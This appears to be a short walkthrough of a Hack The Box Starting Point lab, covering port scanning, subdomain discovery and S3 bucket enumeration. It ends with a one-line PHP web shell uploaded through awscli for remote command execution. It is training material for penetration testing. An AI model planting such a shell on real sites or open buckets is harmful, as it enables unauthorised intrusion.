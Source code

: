 # Link
- https://app.hackthebox.com/starting-point

# Questions

## How many TCP ports are open?
- `nmap -A --top-ports 10000 $IP`

## What is the domain of the email address provided in the "Contact" section of the website?
- Go to "Contact" tab

## In the absence of a DNS server, which Linux file can we use to resolve hostnames to IP addresses in order to be able to access the websites that point to those hostnames?
- _/etc/hosts_

## Which sub-domain is discovered during further enumeration?
- _s3.thetoppers.htb_

## Which service is running on the discovered sub-domain?
- _Amazon s3_

## Which command line utility can be used to interact with the service running on the discovered sub-domain?
- `awscli`

## Which command is used to set up the AWS CLI installation?
- `aws configure`

## What is the command used by the above utility to list all of the S3 buckets?
- `aws s3 ls`

## This server is configured to run files written in what web scripting language?
- `aws s3 ls --endpoint-url http://s3.thetoppers.htb s3://thetoppers.htb`
- find _index.php_ file
- _php_

## Submit root flag
- create a _php web shell_
```php
<?php system($_GET['cmd'])>
```
- copy to the `s3 copy`
    - `aws s3 cp --endpoint-url=http://s3.thetoppers.htb shell.php s3://thetoppers.htb`
- access the following URL selecting any command to RCE: `http://thetoppers.htb/shell.php?cmd=$COMMAND`
- flag in _../flag.txt_


